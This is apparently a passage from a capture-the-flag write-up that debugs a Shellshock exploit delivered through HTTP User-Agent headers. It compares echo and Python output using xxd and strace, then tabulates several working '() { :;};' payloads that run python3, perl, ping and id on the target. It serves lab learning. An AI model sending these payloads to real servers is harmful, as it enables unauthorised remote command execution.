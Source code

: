 My first thought was that perhaps Python and `echo` were outputting different information. At least on my machine this wasn’t the case:

```

oxdf@parrot$ python3 -c 'print()' | xxd
00000000: 0a                                       .
oxdf@parrot$ echo | xxd
00000000: 0a 

```

Looking at how each finished didn’t show much difference either:

```

oxdf@parrot$ strace echo
...[snip]...
write(1, "\n", 1
)                       = 1
close(1)                                = 0
close(2)                                = 0
exit_group(0)                           = ?
+++ exited with 0 +++

oxdf@parrot$ strace python3 -c 'print()'
...[snip]...
write(1, "\n", 1
)                       = 1
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7fd36b83a140}, {sa_handler=0x6402c0, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7fd36b83a140}, 8) = 0
brk(0xdc5000)                           = 0xdc5000
exit_group(0)                           = ?
+++ exited with 0 +++

```

I started doing experiments to see what the issue could be.

| UA String | HTTP Code | Pings at tcpdump | Output in Resp |
| --- | --- | --- | --- |
| `User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("echo")'; /bin/ping -c 1 10.10.14.15` | 200 | 0 | None |
| `User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("/bin/ping -c 1 10.10.14.15")'; /bin/ping -c 1 10.10.14.15` | 500 | 1 | Error |
| `User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("echo; /bin/ping -c 2 10.10.14.15")'; /bin/ping -c 1 10.10.14.15` | 200 | 2 | Ping results from Python |
| `User-Agent: () { :;}; echo; /usr/bin/python3 -c 'import os; os.system("/bin/ping -c 1 10.10.14.15")'; /usr/bin/id` | 200 | 1 | Ping results |

I noticed pretty quickly that nothing after Python runs. I spent a while trying to figure out what was weird about Python, but that was the wrong way to look at it. I eventually tried Perl:

| UA String | HTTP Code | Pings at tcpdump | Output in Resp |
| --- | --- | --- | --- |
| `User-Agent: () { :;}; /usr/bin/perl -e 'print "\n"'; /bin/ping -c 1 10.10.14.15` | 200 | 0 | None |
